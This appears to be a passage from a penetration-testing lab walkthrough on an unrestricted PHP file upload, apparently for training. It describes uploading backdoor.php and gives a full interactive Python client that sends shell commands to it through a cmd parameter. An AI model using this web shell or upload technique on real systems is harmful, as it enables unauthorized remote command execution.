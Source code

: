 ![](Pasted%20image%2020240906111841.png)

- _backdoor.php_ was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
- The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
- Uploading a file with a _.php_ extension is also allowed. If there was a limitation on the extensions, we could try extensions such as `.jpg.php`, `.PHP`, etc.
- Using something like [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either.
- We also receive the location where our file is stored, `http://<TARGET IP>:3001/uploads/backdoor.php`.

We can use the below Python script (save it as `web_shell.py`) to obtain a shell, leveraging the uploaded `backdoor.php` file.

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```
